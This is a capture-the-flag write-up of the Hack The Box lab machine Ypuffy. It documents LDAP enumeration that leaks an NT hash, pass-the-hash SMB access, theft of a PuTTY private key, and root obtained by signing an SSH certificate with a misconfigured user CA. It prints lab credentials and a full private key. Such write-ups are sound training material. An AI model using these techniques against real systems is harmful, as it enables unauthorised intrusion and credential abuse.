

---
search:
  exclude: true
---
# Ypuffy Writeup

## Introduction :

Ypuffy is a Medium box released back in September 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → nmap -F 10.10.10.107 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 07:56 GMT
      Nmap scan report for 10.10.10.107
      Host is up (0.062s latency).
      Not shown: 8315 closed ports
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      139/tcp open  netbios-ssn
      389/tcp open  ldap
      445/tcp open  microsoft-ds
    
      Nmap done: 1 IP address (1 host up) scanned in 4.05 seconds
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → nmap -sCV -p22,80,139,389,445 10.10.10.107
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 07:57 GMT
      Nmap scan report for 10.10.10.107
      Host is up (0.046s latency).
    
      PORT    STATE SERVICE     VERSION
      22/tcp  open  ssh         OpenSSH 7.7 (protocol 2.0)
      | ssh-hostkey:
      |   2048 2e:19:e6:af:1b:a7:b0:e8:07:2a:2b:11:5d:7b:c6:04 (RSA)
      |   256 dd:0f:6a:2a:53:ee:19:50:d9:e5:e7:81:04:8d:91:b6 (ECDSA)
      |_  256 21:9e:db:bd:e1:78:4d:72:b0:ea:b4:97:fb:7f:af:91 (ED25519)
      80/tcp  open  http        OpenBSD httpd
      139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YPUFFY)
      389/tcp open  ldap        (Anonymous bind OK)
      445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
      Service Info: Host: YPUFFY
    
      Host script results:
      |_clock-skew: mean: 1h20m16s, deviation: 2h18m34s, median: 15s
      | smb-os-discovery:
      |   OS: Windows 6.1 (Samba 4.7.6)
      |   Computer name: ypuffy
      |   NetBIOS computer name: YPUFFY\x00
      |   Domain name: hackthebox.htb
      |   FQDN: ypuffy.hackthebox.htb
      |_  System time: 2020-03-22T03:57:40-04:00
      | smb-security-mode:
      |   account_used: 
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2020-03-22T07:57:39
      |_  start_date: N/A
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 24.97 seconds
    
      {Ø} nobody [ 10.10.14.24/23 ] [/home/nihilist]
      → echo '10.10.10.107 ypuffy.htb' >> /etc/hosts
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 389 running the LDAP service with anonymous bind , so let's investigate it using ldapsearch:
    
    
      [0] nothing [ 10.10.14.24/23 ] [~]
      → ldapsearch -h 10.10.10.107 -p 389 -x -b dc=hackthebox,dc=htb
      # extended LDIF
      #
      # LDAPv3
      # base <****dc=hackthebox,dc=htb> with scope subtree
      # filter: (objectclass=*)
      # requesting: ALL
      #
    
      # hackthebox.htb
      dn: dc=hackthebox,dc=htb
      dc: hackthebox
      objectClass: top
      objectClass: domain
    
      # passwd, hackthebox.htb
      dn: ou=passwd,dc=hackthebox,dc=htb
      ou: passwd
      objectClass: top
      objectClass: organizationalUnit
    
      # bob8791, passwd, hackthebox.htb
      dn: uid=bob8791,ou=passwd,dc=hackthebox,dc=htb
      uid: bob8791
      cn: Bob
      objectClass: account
      objectClass: posixAccount
      objectClass: top
      userPassword:: e0JTREFVVEh9Ym9iODc5MQ==
      uidNumber: 5001
      gidNumber: 5001
      gecos: Bob
      homeDirectory: /home/bob8791
      loginShell: /bin/ksh
    
      # alice1978, passwd, hackthebox.htb
      dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
      uid: alice1978
      cn: Alice
      objectClass: account
      objectClass: posixAccount
      objectClass: top
      objectClass: sambaSamAccount
      userPassword:: e0JTREFVVEh9YWxpY2UxOTc4
      uidNumber: 5000
      gidNumber: 5000
      gecos: Alice
      homeDirectory: /home/alice1978
      loginShell: /bin/ksh
      sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
      displayName: Alice
      sambaAcctFlags: [U          ]
      sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
      sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
      sambaPwdLastSet: 1532916644

There we have something interesting : alice1978 is an username, and we have her smb NT password hash 0B186E661BBDBDCF6047784DE8B9FD8B , therefore from there we can enumerate the smb service running on the box, using crackmapexec or smbclient just like on the  box.
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → crackmapexec smb ypuffy.htb -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B --shares
      SMB         10.10.10.107    445    YPUFFY           [*] Windows 6.1 (name:YPUFFY) (domain:YPUFFY) (signing:False) (SMBv1:True)
      SMB         10.10.10.107    445    YPUFFY           [+] YPUFFY\alice1978 0B186E661BBDBDCF6047784DE8B9FD8B
      SMB         10.10.10.107    445    YPUFFY           [+] Enumerated shares
      SMB         10.10.10.107    445    YPUFFY           Share           Permissions     Remark
      SMB         10.10.10.107    445    YPUFFY           -----           -----------     ------
      SMB         10.10.10.107    445    YPUFFY           alice           READ,WRITE      Alice's Windows Directory
      SMB         10.10.10.107    445    YPUFFY           IPC$                            IPC Service (Samba Server)
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → smbclient -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash -L //ypuffy.htb/
    
      	Sharename       Type      Comment
      	---------       ----      -------
      	alice           Disk      Alice's Windows Directory
      	IPC$            IPC       IPC Service (Samba Server)
      SMB1 disabled -- no workgroup available
    
    
    
    

There are 2 shares : alice and IPC$, we have the RW permissions to the alice share, however with no access to IPC$ so let's use smbclient to log into the alice's windows directory share and get whatever we can from it:
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → smbclient -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash //ypuffy.htb/alice
      Try "help" to get a list of possible commands.
      smb: \> ls
        .                                   D        0  Sun Mar 22 08:09:56 2020
        ..                                  D        0  Wed Aug  1 04:16:50 2018
        my_private_key.ppk                  A     1460  Tue Jul 17 02:38:51 2018
    
      		433262 blocks of size 1024. 411540 blocks available
      smb: \> get my_private_key.ppk
      getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (7.9 KiloBytes/sec) (average 7.9 KiloBytes/sec)
      smb: \> exit
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → mkdir _HTB/Ypuffy
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → mv my_private_key.ppk _HTB/Ypuffy && cd _HTB/Ypuffy && file my_private_key.ppk
      my_private_key.ppk: ASCII text, with CRLF line terminators
    

printing out it's contents we see that it is a PuTTY user SSH private key : 
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Ypuffy]
      → cat my_private_key.ppk
      PuTTY-User-Key-File-2: ssh-rsa
      Encryption: none
      Comment: rsa-key-20180716
      Public-Lines: 6
      AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
      1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
      BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
      h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
      iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
      ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
      Private-Lines: 14
      AAABAH0knH2xprkuycHoh18sGrlvVGVG6C2vZ9PsiBdP/5wmhpYI3Svnn3ZL8CwF
      VGaXdidhZunC9xmD1/QAgCgTz/Fh5yl+nGdeBWc10hLD2SeqFJoHU6SLYpOSViSE
      cOZ5mYSy4IIRgPdJKwL6NPnrO+qORSSs9uKVqEdmKLm5lat9dRJVtFlG2tZ7tsma
      hRM//9du5MKWWemJlW9PmRGY6shATM3Ow8LojNgnpoHNigB6b/kdDozx6RIf8b1q
      Gs+gaU1W5FVehiV6dO2OjHUoUtBME01owBLvwjdV/1Sea/kcZa72TYIMoN1MUEFC
      3hlBVcWbiy+O27JzmDzhYen0Jq0AAACBANTBwU1DttMKKphHAN23+tvIAh3rlNG6
      m+xeStOxEusrbNL89aEU03FWXIocoQlPiQBr3s8OkgMk1QVYABlH30Y2ZsPL/hp6
      l4UVEuHUqnTfEOowVTcVNlwpNM8YLhgn+JIeGpJZqus5JK/pBhK0JclenIpH5M2v
      4L9aKFwiMZxfAAAAgQDG+o9xrh+rZuQg8BZ6ZcGGdszZITn797a4YU+NzxjP4jR+
      qSVCTRky9uSP0i9H7B9KVnuu9AfzKDBgSH/zxFnJqBTTykM1imjt+y1wVa/3aLPh
      hKxePlIrP3YaMKd38ss2ebeqWy+XJYwgWOsSw8wAQT7fIxmT8OYfJRjRGTS74QAA
      AIEAiOHSABguzA8sMxaHMvWu16F0RKXLOy+S3ZbMrQZr+nDyzHYPaLDRtNE2iI5c
      QLr38t6CRO6zEZ+08Zh5rbqLJ1n8i/q0Pv+nYoYlocxw3qodwUlUYcr1/sE+Wuvl
      xTwgKNIb9U6L6OdSr5FGkFBCFldtZ/WSHtbHxBabb0zpdts=
      Private-MAC: 208b4e256cd56d59f70e3594f4e2c3ca91a757c9
    

Now we need to convert this putty private key into a ssh private key, to do so we'll use puttygen (apt install putty-tools)
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Ypuffy]
      → puttygen
      Usage: puttygen ( keyfile | -t type [ -b bits ] )
                      [ -C comment ] [ -P ] [ -q ]
                      [ -o output-keyfile ] [ -O type | -l | -L | -p ]
      Use "puttygen --help" for more detail.
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Ypuffy]
      → puttygen my_private_key.ppk -O private-openssh -o pkey
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Ypuffy]
      → file pkey
      pkey: PEM RSA private key
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Ypuffy]
      → chmod 600 pkey
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Ypuffy]
      → ssh -i pkey alice@ypuffy.htb
    
    

Once we transformed the putty key into a ssh private key, we give it the appropriate permissions and use it to ssh into the box: 
    
    
      [0] nothing [ 10.10.14.24/23 ] [~/_HTB/Ypuffy]
      → ssh -i pkey alice1978@ypuffy.htb
      OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018
    
      Welcome to OpenBSD: The proactively secure Unix-like operating system.
    
      Please use the sendbug(1) utility to report bugs in the system.
      Before reporting a bug, please try to reproduce it with the latest
      version of the code.  With bug reports, please try to ensure that
      enough information to reproduce the problem is enclosed, and if a
      known fix for it exists, include that as well.
    
      ypuffy$ uname -a
      OpenBSD ypuffy.hackthebox.htb 6.3 GENERIC#100 amd64
      ypuffy$ ls
      user.txt windir
      ypuffy$ cat user.txt
      acXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have the user flag! 

## **Part 3 : Getting Root Access**

Now in order to privesc on this box we need to take a look into /etc:
    
    
      ypuffy$ cd /etc
      ypuffy$ ls
      X11               doas.conf         hosts             mail              npppd             rc.conf           ssh
      acme              dumpdates         hotplug           mail.rc           ntpd.conf         rc.conf.local     ssl
      acme-client.conf  examples          httpd.conf        mailer.conf       openldap          rc.d              sysctl.conf
      adduser.conf      fbtab             iked              master.passwd     pam.d             resolv.conf       syslog.conf
      amd               firmware          isakmpd           moduli            passwd            rmt               termcap
      authpf            fonts             ksh.kshrc         monthly           pf.conf           rpc               ttys
      avahi             fstab             ldap              motd              pf.os             samba             usermgmt.conf
      changelist        ftpusers          ldapd.conf        mtree             pkcs11            services          weekly
      cups              gamin             localtime         mygate            ppp               shells            ypldap.conf
      daily             gettytab          locate.rc         myname            protocols         signify
      dbus-1            group             login.conf        netstart          pwd.db            skel
      defaultdomain     group.bak         machine-id        networks          random.seed       soii.key
      disktab           hostname.em0      magic             newsyslog.conf    rc                spwd.db
      ypuffy$ cat httpd.conf
      server "ypuffy.hackthebox.htb" {
              listen on * port 80
    
              location "/userca*" {
                      root "/userca"
                      root strip 1
                      directory auto index
              }
    
              location "/sshauth*" {
                      fastcgi socket "/run/wsgi/sshauthd.socket"
              }
    
              location * {
                      block drop
              }
      }
    
    

/etc/httpd.conf hints us for a directory named "userca", and looking into /home we see that there are 3 users on the box :
    
    
      ypuffy$ ls /home
      alice1978 bob8791   userca
      ypuffy$ ls /home/bob8791
      dba
      ypuffy$ ls /home/userca
      ca     ca.pub
      ypuffy$ ls /home/alice1978
      user.txt windir
    

bob has an interesting directory called "dba" which contains a sql script:
    
    
      ypuffy$ cd /home/bob8791
      ypuffy$ ls
      dba
      ypuffy$ cd dba
      ypuffy$ ls -lash
      total 12
      4 drwxr-xr-x  2 bob8791  bob8791   512B Jul 30  2018 .
      4 drwxr-xr-x  3 bob8791  bob8791   512B Jul 30  2018 ..
      4 -rw-r--r--  1 bob8791  bob8791   268B Jul 30  2018 sshauth.sql
      ypuffy$ cat sshauth.sql
      CREATE TABLE principals (
              uid text,
              client cidr,
              principal text,
              PRIMARY KEY (uid,client,principal)
      );
    
      CREATE TABLE keys (
              uid text,
              key text,
              PRIMARY KEY (uid,key)
      );
      grant select on principals,keys to appsrv;
    
    

This script hints us towards ssh keys, so let's check out sshd_config in /etc/ssh 
    
    
      ypuffy$ cd /etc/ssh
      ypuffy$ ls
      ssh_config                ssh_host_dsa_key.pub      ssh_host_ecdsa_key.pub    ssh_host_ed25519_key.pub  ssh_host_rsa_key.pub
      ssh_host_dsa_key          ssh_host_ecdsa_key        ssh_host_ed25519_key      ssh_host_rsa_key          sshd_config
      ypuffy$ cat ssh_config
      #       $OpenBSD: ssh_config,v 1.33 2017/05/07 23:12:57 djm Exp $
    
      # This is the ssh client system-wide configuration file.  See
      # ssh_config(5) for more information.  This file provides defaults for
      # users, and the values can be changed in per-user configuration files
      # or on the command line.
    
      # Configuration data is parsed as follows:
      #  1. command line options
      #  2. user-specific file
      #  3. system-wide file
      # Any configuration value is only changed the first time it is set.
      # Thus, host-specific definitions should be at the beginning of the
      # configuration file, and defaults at the end.
    
      # Site-wide defaults for some commonly used options.  For a comprehensive
      # list of available options, their meanings and defaults, please see the
      # ssh_config(5) man page.
    
      # Host *
      #   ForwardAgent no
      #   ForwardX11 no
      #   PasswordAuthentication yes
      #   HostbasedAuthentication no
      #   BatchMode no
      #   CheckHostIP yes
      #   AddressFamily any
      #   ConnectTimeout 0
      #   StrictHostKeyChecking ask
      #   IdentityFile ~/.ssh/id_rsa
      #   IdentityFile ~/.ssh/id_dsa
      #   IdentityFile ~/.ssh/id_ecdsa
      #   IdentityFile ~/.ssh/id_ed25519
      #   Port 22
      #   Protocol 2
      #   Ciphers aes128-ctr,aes192-ctr,aes256-ctr,aes128-cbc,3des-cbc
      #   MACs hmac-md5,hmac-sha1,umac-64@openssh.com
      #   EscapeChar ~
      #   Tunnel no
      #   TunnelDevice any:any
      #   PermitLocalCommand no
      #   VisualHostKey no
      #   ProxyCommand ssh -q -W %h:%p gateway.example.com
      #   RekeyLimit 1G 1h
      ypuffy$ cat sshd_config
      #       $OpenBSD: sshd_config,v 1.102 2018/02/16 02:32:40 djm Exp $
    
      # This is the sshd server system-wide configuration file.  See
      # sshd_config(5) for more information.
    
      # The strategy used for options in the default sshd_config shipped with
      # OpenSSH is to specify options with their default value where
      # possible, but leave them commented.  Uncommented options override the
      # default value.
    
      #Port 22
      #AddressFamily any
      #ListenAddress 0.0.0.0
      #ListenAddress ::
    
      #HostKey /etc/ssh/ssh_host_rsa_key
      #HostKey /etc/ssh/ssh_host_ecdsa_key
      #HostKey /etc/ssh/ssh_host_ed25519_key
    
      # Ciphers and keying
      #RekeyLimit default none
    
      # Logging
      #SyslogFacility AUTH
      #LogLevel INFO
    
      # Authentication:
    
      #LoginGraceTime 2m
      PermitRootLogin prohibit-password
      #StrictModes yes
      #MaxAuthTries 6
      #MaxSessions 10
    
      #PubkeyAuthentication yes
    
      # The default is to check both .ssh/authorized_keys and .ssh/authorized_keys2
      # but this is overridden so installations will only check .ssh/authorized_keys
      AuthorizedKeysFile      .ssh/authorized_keys
    
      #AuthorizedPrincipalsFile none
    
      AuthorizedKeysCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=keys&username;=%u
      AuthorizedKeysCommandUser nobody
    
      TrustedUserCAKeys /home/userca/ca.pub
      AuthorizedPrincipalsCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=principals&username;=%u
      AuthorizedPrincipalsCommandUser nobody
    
    
    

Here we are hinted towards the local http service that can request ssh keys from /sshauth?type=keys&username;= and principals from /sslauth?type=principal&username;=, and as sshd_config hints us to do so we'll see what happens when we request the sslauth from principals for the username "root" : 
    
    
      ypuffy$ curl 'http://127.0.0.1/sshauth?type=principals&username;=root'
      3m3rgencyB4ckd00r
    

And so we have root's principal passphrase, so we can generate ssh keys in order to ssh as root with them : 
    
    
      ypuffy$ cat /etc/doas.conf
      permit keepenv :wheel
      permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
    

We see that alice1978 has permissions to use /usr/bin/ssh-keygen without supplying a password : 
    
    
      ypuffy$ id
      uid=5000(alice1978) gid=5000(alice1978) groups=5000(alice1978)
      ypuffy$ ssh-keygen -t rsa -f /tmp/nihilist
      Generating public/private rsa key pair.
      Enter passphrase (empty for no passphrase):
      Enter same passphrase again:
      Your identification has been saved in /tmp/nihilist.
      Your public key has been saved in /tmp/nihilist.pub.
      The key fingerprint is:
      SHA256:cu3km8fxVx9ucce2sVFXTjWML8DA9QUWuvBMPPdbHaE alice1978@ypuffy.hackthebox.htb
      The key's randomart image is:
      +---[RSA 2048]----+
      |        ..+. +=+o|
      |         ..o+.o.=|
      |         . =.E.+.|
      |         .= +...*|
      |      . S o+  .o=|
      |       o +  .  =O|
      |          o. o.o%|
      |           oo .=o|
      |          o.  .. |
      +----[SHA256]-----+
    

We gave it the appropriate passphrase we found earlier, and now we'll use the ca certificate in /home/userca/ 
    
    
      ypuffy$ cd /home/userca
      ypuffy$ ls
      ca     ca.pub
      ypuffy$ doas -u userca /usr/bin/ssh-keygen -s ca -I root -n 3m3rgencyB4ckd00r /tmp/nihilist.pub
      Signed user key /tmp/nihilist-cert.pub: id "root" serial 0 for 3m3rgencyB4ckd00r valid forever
      ypuffy$ ssh -i /tmp/nihilist root@127.0.0.1
      The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
      ECDSA key fingerprint is SHA256:oYYpshmLOvkyebJUObgH6bxJkOGRu7xsw3r7ta0LCzE.
      Are you sure you want to continue connecting (yes/no)? yes
      Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
      Enter passphrase for key '/tmp/nihilist':
      OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018
    
      Welcome to OpenBSD: The proactively secure Unix-like operating system.
    
      Please use the sendbug(1) utility to report bugs in the system.
      Before reporting a bug, please try to reproduce it with the latest
      version of the code.  With bug reports, please try to ensure that
      enough information to reproduce the problem is enclosed, and if a
      known fix for it exists, include that as well.
    
      ypuffy# id
      uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
      ypuffy# cat /root/root.txt
      12XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

Once we signed the pkey we use it to ssh in as root, and print the root flag. 

## **Conclusion**

Here we can see the progress graph :

